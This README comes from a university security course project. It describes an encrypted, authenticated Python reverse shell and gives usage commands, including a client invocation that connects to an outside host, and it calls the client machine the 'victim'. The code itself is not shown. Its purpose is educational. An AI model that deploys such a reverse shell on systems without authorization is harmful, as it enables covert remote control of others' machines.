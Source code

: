 # Wireless Systems Security final project

*Authors: Pau de las Heras and Eric Roy*

*This is the final project of the Wireless Systems Security course from
the ML and Cybersecurity for Internet-Connected Systems MSc at EPSEM-UPC*

**Disclaimer:** this code is published under the MIT license and only for
educational purposes. We are not responsible for any unethical usage of these
scripts.

---

## Outline

We enhance an existing [reverse shell application](https://github.com/frezazadeh/Security-Course-Labs/tree/main/Lab1-Reverse-shell)
by integrating critical security measures like TLS encryption and authentication.

## Features

This is a reverse shell that works over TLS, where the server is authenticated
by the client using a self-signed certificate (which the client has the
public key, otherwise it would be useless), and the client is authenticated
by the server using a pre-shared key (PSK).
Only one client can be connected at a time.

## Usage

**Requirements:** modern version of Python 3. Only builtin modules are used.

### Server-side

On your server (a machine which the victim/client can connect to) you need to
create a self-signed certificate:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

Then you can run the server:
```
python3 server.py
```

### Client-side

On the client machine, copy *only* the `client.py` file and `cert.pem` (since
copying the rest would lead to the client knowing server keys). Run:
```
python3 client.py
```

### Parameterize

Default values are used everywhere, but you can tweak them as much as you
want. For example:

```
python3 server.py --port 5555 --private-key-path /home/user/key.pem --password 123456789
python3 client.py --host asi.ericroy.net --port 5555 --password 123456789 --public-key-path /home/user/cert.pem
```

You can see the full list using `-h` or `--help`:
```
python3 server.py -h
python3 client.py --help
```

<!-- PROJECT REQUIREMENTS
SSL/TLS Encryption:
    Use Python’s ssl module to wrap the sockets.
    Generate or manage self-signed certificates.
    Ensure that data in transit is encrypted and secure.

Authentication Mechanism:
    Implement a method (e.g., password-based, challenge-response, or public/private key pairs) to validate connecting clients.
    Integrate the authentication process immediately after the SSL/TLS handshake and before any shell commands are executed.

You must share the GitHub link to your project, ensuring that the code is fully commented and includes a complete README section.
In addition, you should provide a link to a demo video where you explain, step by step, the scenario, the problem, your code, and the final execution.
If you are working in a team, each team member must explain a specific part of the project in the video.
-->
